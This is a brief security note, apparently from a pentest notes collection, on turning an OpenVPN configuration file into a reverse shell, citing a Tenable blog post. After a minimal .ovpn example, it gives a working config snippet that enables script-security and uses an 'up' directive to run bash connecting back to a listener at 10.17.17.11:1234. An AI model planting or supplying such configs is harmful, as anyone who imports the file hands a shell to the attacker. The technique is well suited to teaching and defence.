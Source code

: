 # openvpn
[https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) 

At its most simple form, an ovpn file looks like the this:

> remote 192.168.1.245  
> ifconfig 10.200.0.2 10.200.0.1  
> dev tun

This directs the client to connect to the server at 192.168.1.245 without authentication or encryption and establish the tun interface for communication between the client (10.200.0.2) and the server (10.200.0.1).

```text-plain
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/10.17.17.11/1234 0<&1 2>&1&'"
```